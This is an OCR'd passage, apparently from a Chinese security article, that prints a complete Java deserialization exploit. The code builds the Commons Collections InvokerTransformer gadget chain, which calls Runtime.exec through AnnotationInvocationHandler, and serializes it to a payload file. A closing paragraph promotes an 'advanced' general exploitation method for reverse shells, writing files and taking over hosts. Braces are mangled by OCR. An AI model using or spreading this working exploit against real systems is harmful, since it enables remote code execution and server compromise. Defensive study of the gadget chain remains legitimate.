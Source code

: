 ```
 * @Date 2015年11月8日 下午12:12:13
 */
public class Main `{`
public static Object Reverse_Payload(String execArgs) throws Exception `{`
final Transformer[] transforms = new Transformer[] `{`
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] `{` String.class,
Class[].class `}`, new Object[] `{` "getRuntime",
new Class[0] `}`),
new InvokerTransformer("invoke", new Class[] `{` Object.class,
Object[].class `}`, new Object[] `{` null, new Object[0] `}`),
new InvokerTransformer("exec", new Class[] `{` String.class `}`,
execArgs), new ConstantTransformer(1) `}`;
Transformer transformerChain = new ChainedTransformer(transforms);
Map innermap = new HashMap();
innermap.put("value", "value");
Map outmap = TransformedMap.decorate(innermap, null, transformerChain);
Class cls = Class
.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
ctor.setAccessible(true);
Object instance = ctor.newInstance(Retention.class, outmap);
return instance;
`}`
public static void main(String[] args) throws Exception `{`
GeneratePayload(Reverse_Payload("cmd"),
"/Users/iswin/Downloads/test.bin");
`}`
public static void GeneratePayload(Object instance, String file)
throws Exception `{`
File f = new File(file);
ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
out.writeObject(instance);
out.flush();
out.close();
`}`
public static void payloadTest(String file) throws Exception `{`
// 这里为测试上面的tansform是否会触发payload
// Map.Entry onlyElement =(Entry) outmap.entrySet().iterator().next();
// onlyElement.setValue("foobar");
ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
in.readObject();
in.close();
`}`
`}`
```

****

**漏洞高级利用**<br>

现在网上给出的poc只能执行命令或者写个文件之类的,本文将介绍一种通用的漏洞利用方法,只要服务器可以出网,就可以进行任何操作,例如反弹个shell,写文件?当然还有抓鸡等。
